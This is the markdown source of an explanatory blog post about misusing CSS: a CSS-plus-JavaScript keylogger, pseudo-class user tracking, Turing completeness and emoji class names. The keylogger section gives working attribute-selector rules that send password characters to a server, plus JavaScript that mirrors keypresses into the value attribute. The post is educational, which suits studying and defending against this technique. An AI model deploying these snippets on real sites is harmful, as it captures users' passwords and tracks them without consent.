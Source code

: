 +++
title = "CSS Can Do This... And It's Terrifying!"
date = 2019-08-14T11:33:46+10:00
description = "A look at how you can abuse CSS for evil(?)"
draft = false
tags = ["css"]
+++

{{< tweet user="ThePracticalDev" id="1161443226580127745" >}}

Inspired by today's _#DevDiscuss_ I commented with my favourite misdeeds in CSS.

{{< tweet user="slace" id="1161446544723202048" >}}

So let's have a look at how they work.

## CSS Keylogger

This has [been around for a while now](https://github.com/maxchehab/CSS-Keylogging/) that you can use CSS to create a keylogger, but as is rightly pointed out in [this post](https://www.bram.us/2018/02/21/css-keylogger-and-why-you-shouldnt-worry-about-it/) it's not "really" just CSS, it does rely on some JavaScript. So let's dissect how it works.

We have our selector like so:

```css
input[type="password"][value$="a"] {
    background-image: url("http://localhost:3000/a");
}
```

_Assume it's repeated for every character you want to log._

The important part of the selector is the substring match on `value`, this part: `[value$="a"]`. This is an [attribute selector](https://developer.mozilla.org/en-US/docs/Web/CSS/Attribute_selectors), specifically a substring selector that was added as part of [CSS 3](https://drafts.csswg.org/selectors-3/#attribute-substrings) and what it's doing is saying is that it'll match when the `value` attribute of the DOM element ends with `a` (you can use `^` for begins with if you wanted).

So we're matching when the `value` attribute contains that but if you were to look into the DOM of a form on a page you'll notice something, the `value` attribute isn't set. Here, take a look at this:

<input type="text" value="Test here" id="demo-01" />

If you open up the dev tools in your browser you'll notice that when you type in the input the **attribute** doesn't change, it's always set to `Test here`. But if you were to use JavaScript to inspect the value, `document.getElementById('demo-01').value` it'll have what _you_ entered. This is because the attribute represents the [default value](https://html.spec.whatwg.org/multipage/form-control-infrastructure.html#concept-fe-value) of the `<input>`, not the current value, that's something that might get computed, depending on the type of input you have.

What does it mean for us creating a keylogger in CSS? Well, the simple fact is that you can't create one **purely** with CSS but you can create one with CSS and a bit of JavaScript because we're going to need to update the `value` attribute along the way.

This is quite easy to do, you just need some JavaScript like this:

```js
let inputs = document.getElementsByTagName("input");

for (let i = 0; i < inputs.length; i++) {
    let input = inputs[i];

    input.addEventListener("keypress", e => {
        e.preventDefault();
        let char = String.fromCharCode(e.keyCode);
        let newValue = input.value + char;
        input.setAttribute("value", newValue);
        input.setSelectionRange(newValue.length, newValue.length);
    });
}
```

What this does is it "pretends" that you're doing your keypress appropriately by catching it early and then pushing the character you _intended_ to enter onto the `value` attribute, making it look like you were typing normally. We then use the `setSelectionRange` method on the input to position the caret to the end of the input so you are none the wiser. [A demo can be found here of this in action]({{< ref "/demos/css-hacking/keylogger.md" >}}).

But if you're able to run JavaScript to bypass how the DOM works, why bother with CSS anyway? The problem isn't so much the code _you_ write but more the code you might leverage, in particular, UI frameworks.

For example, React synchronises the `value` attribute with state if you're using a controlled form, which is something that [this issue](https://github.com/facebook/react/issues/11896) tracks. So if you're on a website that is using React then that website is vulnerable to this kind of an attack, whether it's through an extension in your browser or some dodgy ad running on the site.

Yes, you require JavaScript to properly implement a "CSS keylogger", but that doesn't mean that you have to write the JavaScript.

I just want to quickly touch on some points the author makes in [this post](https://www.bram.us/2018/02/21/css-keylogger-and-why-you-shouldnt-worry-about-it/). They state that it's not really a big deal because the `background-image` is only done for the first match so repeated characters won't pick up (e.g. a password of `password` will miss a `s`), and that is true (the `value` didn't change the last character at `pass` so the selector wasn't triggered) but the data capture will include timestamps and if you take a level of variance between the timestamp of events you can extrapolate your own gaps (if it took 0.1ms between captures and then there was an 0.5, maybe some characters were duplicated). The same goes for the observation that the order-of-receive isn't guaranteed. That's true, the server may receive them out of order, but when you have all (or 90+%) characters of a password the ability to brute force goes down drastically.

## User Tracking with CSS

This is not quite as scary as a keylogger but it does borrow the same underlying principle as the keylogger.

For this we're going to exploit [CSS Pseudo-Classes](https://developer.mozilla.org/en-US/docs/Web/CSS/Pseudo-classes), which allow us to hook into a number of events of DOM elements.

<div id="demo-02">
    <p>Hover over me</p>
    <input type="text" placeholder="focus on me" />
    <button>Click me</button>
</div>

<style>
#demo-02 p:hover {
    background-color: #f0a;
}

#demo-02 input:focus {
    background-color: #bada55
}

#demo-02 button:active {
    color: #ff0000;
}
</style>

Here's the CSS that I applied to those elements:

```css
#demo-02 p:hover {
    background-color: #f0a;
}

#demo-02 input:focus {
    background-color: #bada55;
}

#demo-02 button:active {
    color: #ff0000;
}
```

I'm just using pseudo-classes like `:hover`, `:focus` and `:active` to know when you've done something and then change some colours, but again I could be setting the `background-image` to a tracking URL.

How could this be made useful? Well, think of it like implementing Google Analytics, you could do something like attach a `:hover` state to the `body` element so you know when the page is appearing for the user and then more hover states on all the child elements; as the user moves around the page you're capturing the rough position of their cursor and knowing what they are spending their time on. If there's a form you can work out how long they spent on each field, how they navigate forwards and backwards through a multi-step form, or if they change answers on radio buttons/checkboxes.

Like the keylogger it isn't as straight forward as it might seem, you would have to have a decent idea of the structure of the DOM to be able to create a really fine-grade tracker (or use JavaScript), but if you're using it for your own analytics it's very achievable.

## CSS is Turing Complete

_Ok, CSS + HTML if you want to be pedantic_ but it's true, it is possible to implement [Rule 110](https://en.wikipedia.org/wiki/Rule_110) with just CSS and HTML:

{{< youtube Ak_sWZyHi3E >}}

Credit to [eliheeli](https://github.com/elitheeli) on GitHub for the [working example of it](https://github.com/elitheeli/stupid-machines/tree/master/rule110).

This works by abusing Pesudo-classes like our tracker and combining those with the [Adjacent sibling combinator](https://developer.mozilla.org/en-US/docs/Web/CSS/Adjacent_sibling_combinator). The adjacent sibing combinator, or `+` for short, works like this:

<div id="demo-03">
    <p>I'm a paragraph.</p>
    <p>I'm an adjacent paragraph</p>
</div>

<style>
#demo-03 p {
    color: #00bb00;
}

#demo-03 p + p {
    font-family: 'Comic Sans MS', sans serif;
    font-style: italic;
}
</style>

```css
#demo-03 p {
    color: #00bb00;
}

#demo-03 p + p {
    font-family: "Comic Sans MS", sans serif;
    font-style: italic;
}
```

Here we're applying a rule to all `p` elements, but then we're using the adjacent sibling selector to apply a rule to the 2nd `p` only (in this case, turning on a different font family and style). By applying conditions on the first half of the selector, such as a pesudo-class, the cascade of the rules can be greatly limited.

## Emoji Class Names

Who doesn't love themselves a liberal usage of Emoji's throughout their work? Well did you know that you can use Emoji as the class names in CSS? According [to the spec](https://www.w3.org/TR/CSS21/syndata.html#characters) they are _technically_ valid, meaning you can do this:

<div id="demo-04">
 <p class="🤣">Hello!</p>
</div>

<style>
#demo-04 .🤣 {
    font-family: 'Comic Sans MS';
    text-decoration: #f0a underline overline wavy;
    text-shadow: 2px 2px #bada55;
    transform: rotate(45deg);
    display: inline-block;
}
</style>

```css
#demo-04 .🤣 {
    font-family: "Comic Sans MS";
    text-decoration: #f0a underline overline wavy;
    text-shadow: 2px 2px #bada55;
    transform: rotate(45deg);
    display: inline-block;
}
```

In reality [you probably shouldn't do this](http://adrianroselli.com/2017/10/avoid-emoji-as-class-names.html), but hey, you could shave a few bytes over the wire for the sake of a few users not being able to access your site (or dev on your codebase)!

## Conclusion

What started from a throw-away tweet became the catalyst for writing a post I've been meaning to do for a few years now! 🤣

I hope you've enjoyed a look at a few things you **can** do with CSS, but maybe **shouldn't**.

What are your favourite ways to exploit CSS?
